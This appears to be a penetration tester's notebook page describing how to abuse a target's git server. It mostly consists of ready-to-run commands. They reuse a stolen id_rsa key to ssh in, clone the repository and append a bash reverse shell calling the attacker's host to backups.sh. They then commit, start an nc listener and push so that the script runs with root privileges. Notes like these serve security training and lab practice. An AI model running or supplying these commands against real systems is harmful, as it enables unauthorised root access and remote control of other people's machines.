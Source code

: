 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

#### Git user exists

A git user appears in the /home directory.

![[Pasted image 20220319230833.png]]

Let's copy the .ssh/id_rsa file to kali, then use it to ssh in.

```bash - kali
chmod 600 id_rsa
```

```bash - kali
ssh git@$TARGET -i id_rsa -p 22
```

Now that we have confirmed this works, we can use GIT SSH to clone the repository down to kali.

```bash - kali
GIT_SSH_COMMAND='ssh -i id_rsa -p 22' git clone git@$TARGET:/git-server
```

![[Pasted image 20221110090941.png]]

```bash - kali
cd git-server
```

Configure our Git identity.
```bash - kali
git config --global user.name "kali"
```

```bash - kali
git config --global user.email "kali@kali.(none)"
```

Echo in our reverse shell.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh
```

Now we add and commit changes.
```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

![[Pasted image 20221110091030.png]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - kali
GIT_SSH_COMMAND='ssh -i ../id_rsa -p 43022' git push origin master
```

![[Pasted image 20220319232925.png]]

#### Have commit privs

![[Pasted image 20220319230106.png]]

```bash - kali
git clone file://git-server
```

```bash - kali
ls -la git-server
```

```bash - kali
cd git-server
```

```bash - kali
git log
```

```bash - kali
cat backup.sh
```

```bash - kali
git config --global user.name "$USER"
```

>git config --global user.name "hacker"

```bash - kali
git config --global user.email "$USER@$HOSTNAME.(none)"
```

>git config --global user.email "hacker@targetbox1.(none)"

Run a test command for root execution.
```bash - kali
echo "sh -i >& /dev/tcp/$KALI/8080 0>&1" >> backups.sh 
```

```bash - kali
chmod +x backups.sh 
```

```bash - kali
git add -A
```

```bash - kali
git commit -m "pwn"
```

If this method fails, try [[13._Git Server#Git user exists]]

```bash - kali
sudo rlwrap -cAr nc -lvnp 8080
```

```bash - target
git push origin master
```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
